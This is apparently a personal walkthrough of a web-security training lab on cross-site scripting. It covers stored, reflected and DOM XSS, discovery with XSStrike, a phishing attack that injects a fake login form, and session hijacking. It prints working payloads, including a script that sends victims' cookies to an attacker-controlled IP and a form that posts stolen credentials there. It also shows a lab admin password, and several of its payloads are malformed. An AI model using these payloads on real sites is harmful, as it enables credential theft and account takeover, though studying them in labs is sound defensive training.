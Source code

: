 # Cross-site scripting (XSS)

## XSS Basics

XSS vulnerabilities are solely executed on the client-side and hence do not directly affect the back-end server. They can only affect the user executing the vulnerability. The direct impact of XSS vulnerabilities on the back-end server may be relatively low, but they are very commonly found in web applications, so this equates to a medium risk (low impact + high probability = medium risk), which we should always attempt to reduce risk by detecting, remediating, and proactively preventing these types of vulnerabilities.

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Stored XSS

If our injected XSS payload gets stored in the back-end database and retrieved upon visiting the page, this means that our XSS attack is persistent and may affect any user that visits the page.

**To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**

`alert(document.cookie)<script>`

### Reflected XSS

Processed entirely at the back-end of the server. Not persistent as they disappear after a page refresh. Reaches the back-end server and returns to us unfiltered and unsanitised… oh the fun we can have!

**Same task, it’s just that this doesn’t persist:**

`alert(document.cookie)<script/>`

### DOM XSS

Processed completely client-side and non-persistent (disappears after a page refresh).

This type of vulnerability exists when you can use Javascript code to alter a Document Object Model (DOM). To truly understand DOM attacks let’s talk about source and sink…

**Same as above just with DOM…**

`<img src="" onerror=alert(document.cookie)>`

### XSS Discovery

Automated Discovery

<figure><img src=".gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

`python xsstrike.py -u “http://SERVER_IP:PORT/index.php?task=test"`

Manual Discovery — XSS Payloads

Long story short, I might need to do some more python classes at some point. Python scripts would make this a hell of a lot more useful later on in my XSS seeking endeavours.

**Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?**

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

**What type of XSS vuln is it?**

Literally says “Reflections found” so your answer is “reflected”.

## XSS Attacks

### Phishing

Another very common type of XSS attack is a phishing attack. Phishing attacks usually utilize legitimate-looking information to trick the victims into sending their sensitive information to the attacker. A common form of XSS phishing attacks is through injecting fake login forms that send the login details to the attacker's server, which may then be used to log in on behalf of the victim and gain control over their account and sensitive information.

**Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**

First we use XSStrike python script mentioned earlier to find a payload:

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

`'><a/+/OnMOUSEoVER%09=%09[8].find(confirm)>v3dm0s`

Add it to make it a valid JavaScript piece of code with the login form from earlier:

`ifconfig`

* find your IP

```
‘><script>document.write(‘<h3>Please login to continue</h3><form action=http://10.10.14.63/><input type=”username” name=”username” placeholder=”Username”><input type=”password” name=”password” placeholder=”Password”><input type=”submit” name=”submit” value=”Login”></form>’);document.getElementById(‘urlform’).remove();</script><!--
```

**Crafted malicious final URL:**

{% embed url="http://10.129.85.225/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.14.63%2F%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--" %}

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### admin:p1zd0nt57341myp455

go to URL: [http://10.129.85.225/phishing/login.php](http://10.129.85.225/phishing/login.php)

login to obtain FLAG

### Session Hijacking

**Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**

URL: http://10.129.85.225/hijacking/index.php

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/></script>`

**4x**

<figure><img src=".gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

```
nano script.js
```

```
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

login.php -> update cookie and login

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment

**What is the value of the 'flag' cookie?**

{% embed url="http://10.129.219.0/assessment/" %}

<figure><img src=".gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Go to Recent post

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

`"><script src=http://10.10.14.63:8080/comment></script>`

`"><script src=http://10.10.14.63:8080/name></script>`

`"><script src=http://10.10.14.63:8080/url></script>`

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

\=> VULn field is URL

```
nano script.js
```

```
new Image().src='http://10.10.14.63:8080/index.php?c='+document.cookie;
```



Write a script in the URL field

`<script src=http://10.10.14.63:8080/script.js></script>`

<figure><img src=".gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

